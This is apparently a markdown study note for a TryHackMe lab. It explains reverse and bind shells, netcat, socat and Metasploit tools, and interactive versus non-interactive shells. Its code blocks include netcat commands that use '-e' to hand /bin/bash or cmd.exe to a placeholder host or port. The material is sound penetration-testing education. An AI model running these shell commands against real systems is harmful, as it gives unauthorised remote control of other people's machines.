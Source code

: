 # Shells
In the simplest possible terms, shells are what we use when interfacing with a Command Line environment (CLI). In other words, the common bash or sh programs in Linux are examples of shells, as are cmd.exe and Powershell on Windows. When targeting remote systems it is sometimes possible to force an application running on the server (such as a webserver, for example) to execute arbitrary code. When this happens, we want to use this initial access to obtain a shell running on the target.

In simple terms, we can force the remote server to either send us command line access to the server (a reverse shell), or to open up a port on the server which we can connect to in order to execute further commands (a bind shell).

# Types of shells
## Reverse shells
Reverse shells are when the target is forced to execute code that connects back to your computer. On your own computer you could set up a listener which would be used to receive the connection. Reverse shells are a good way to bypass firewall rules that may prevent you from connecting to arbitrary ports on the target; however, the drawback is that, when receiving a shell from a machine across the internet, you would need to configure your own network to accept the shell. This, however, will not be a problem on the TryHackMe network due to the method by which we connect into the network.
```bash
# On your own computer, set up a listener on port 4444
sudo nc -lvpn 4444

# On the target, execute the following code
nc <LOCAL-IP> <PORT> -e /bin/bash
```	

## Bind shells
Bind shells are when the code executed on the target is used to start a listener attached to a shell directly on the target. This would then be opened up to the internet, meaning you can connect to the port that the code has opened and obtain remote code execution that way. This has the advantage of not requiring any configuration on your own network, but may be prevented by firewalls protecting the target.

```bash 
# On your own computer, execute the following code
nc <LOCAL-IP> <PORT>

# On the target, execute the following code (Windows)
nc -lp <PORT> -e "cmd.exe"
```

# Tools
## Netcat
Netcat is the traditional "Swiss Army Knife" of networking. It is used to manually perform all kinds of network interactions, including things like banner grabbing during enumeration, but more importantly for our uses, it can be used to receive reverse shells and connect to remote ports attached to bind shells on a target system. Netcat shells are very unstable (easy to lose) by default, but can be improved by some techniques.


## Socat
Socat is like netcat on steroids. It can do all of the same things, and many more. Socat shells are usually more stable than netcat shells out of the box. In this sense it is vastly superior to netcat; however, there are two big catches:

1. The syntax is more difficult
2. Netcat is installed on virtually every Linux distribution by default. Socat is very rarely installed by default.

Both Socat and Netcat have .exe versions for use on Windows.

## Metasploit - multi/handler
The auxiliary/multi/handler module of the Metasploit framework is, like socat and netcat, used to receive reverse shells. Due to being part of the Metasploit framework, multi/handler provides a fully-fledged way to obtain stable shells, with a wide variety of further options to improve the caught shell. It's also the only way to interact with a meterpreter shell, and is the easiest way to handle staged payloads

## msfvenom
Like multi/handler, msfvenom is technically part of the Metasploit Framework, however, it is shipped as a standalone tool. Msfvenom is used to generate payloads on the fly. Whilst msfvenom can generate payloads other than reverse and bind shells.

# Interactivity
## Interactive shells
Interactive: If you've used Powershell, Bash, Zsh, sh, or any other standard CLI environment then you will be used to interactive shells. These allow you to interact with programs after executing them. For example, take the SSH login prompt. The user types either yes or no in order to continue the connection. This is an interactive program, which requires an interactive shell in order to run.


## Non-interactive shells
Non-Interactive shells don't give you that luxury. In a non-interactive shell you are limited to using programs which do not require user interaction in order to run properly. Unfortunately, the majority of simple reverse and bind shells are non-interactive, which can make further exploitation trickier. 

Suffice to say that interactive programs do not work in non-interactive shells.
